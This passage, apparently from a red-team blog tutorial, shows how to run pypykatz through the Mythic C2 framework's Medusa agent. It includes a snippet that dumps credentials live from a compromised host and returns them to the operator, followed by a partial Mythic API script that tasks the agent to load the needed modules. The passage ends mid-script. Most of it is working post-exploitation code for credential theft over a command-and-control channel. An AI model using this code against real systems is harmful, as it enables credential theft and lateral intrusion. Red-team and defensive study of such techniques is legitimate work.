 {% highlight python %}
from pypykatz.pypykatz import pypykatz
res = pypykatz.go_live(packages=['all'])
self.sendTaskOutputUpdate(task_id, str(res))
{% endhighlight %}

Having downloaded and zipped up each of our four libraries, we can reuse our Mythic API script to execute this. Note it's just the `modules` dictionary and `script` string that have changed here, but the full script is provided for completeness.

{% highlight python %}
from mythic import mythic_rest
import sys, asyncio

callback_id = sys.argv[1]

modules = {
    "minikerberos": "minikerberos.zip",
    "minidump": "minidump.zip",
    "asn1crypto": "asn1crypto.zip",
    "pypykatz": "pypykatz.zip",
}
script = "pypykatz_run.py"

async def scripting():
    # auth to mythic
    mythic = mythic_rest.Mythic(
        username="USERNAME", 
        password="PASSWORD",
        server_ip="IP_ADDRESS", 
        server_port="7443", 
        ssl=True, 
        global_timeout=-1
    )
    await mythic.login()
    resp = await mythic.set_or_create_apitoken()

    print("\n-------------------------------")
    print("[*] Loading Medusa functions...")
    print("-------------------------------\n")
    # ensure the required Medusa functions are present
    functions = [ "load_module", "load_script" ]
    for function in functions:
        print("[*] Loading {} function".format(function))
        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load"), 
            params={"command":function}
        )

        # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {} function.\n".format(function))

    print("\n-------------------------------")
    print("[*] Loading required modules...")
    print("-------------------------------\n")
    # read each module zip and submit load_module task
